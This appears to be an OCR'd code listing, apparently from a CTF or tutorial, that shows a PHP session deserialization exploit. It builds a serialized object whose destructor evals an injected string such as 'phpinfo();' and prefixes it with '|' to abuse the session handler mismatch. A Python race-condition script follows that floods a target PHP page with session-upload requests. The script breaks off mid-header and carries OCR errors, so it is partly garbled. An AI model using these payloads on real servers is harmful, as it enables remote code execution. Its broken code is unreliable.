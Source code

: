 ```php
Constructing malicious serialization statements

<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;
​
    function __construct() {
        $this->handle = new IP();
    }
​
    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "Your visit time:".date('Y-m-d H:i:s',time());
    }
}
​
class IP{
    public $ip;
    function __construct() {
        //$this->ip='payload';
        $this->ip='phpinfo();';
        //$this->ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this->ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?>
```

```python
Conditional competition

#coding=utf-8
import requests
import threading
import io
import sys
​
def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    While True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
```